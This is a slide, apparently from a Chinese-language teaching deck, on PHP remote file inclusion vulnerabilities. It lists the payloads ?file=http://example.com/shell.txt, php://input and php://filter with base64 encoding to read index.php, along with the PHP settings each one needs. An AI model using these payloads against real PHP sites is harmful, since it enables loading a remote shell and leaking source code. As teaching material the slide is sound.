

# 远程文件包含漏洞
普通远程文件包含
?file=[http|https|ftp]://example.com/shell.txt
(需要allow_url_fopen=On并且 allow_url_include=On)
利用 php 流 input：
?file=php://input
(需要allow_url_include=On)
   利用 php 流 filter： 后面实例
?file=php://filter/convert.base64-encode/resource=index.php
(需要allow_url_include=On)
8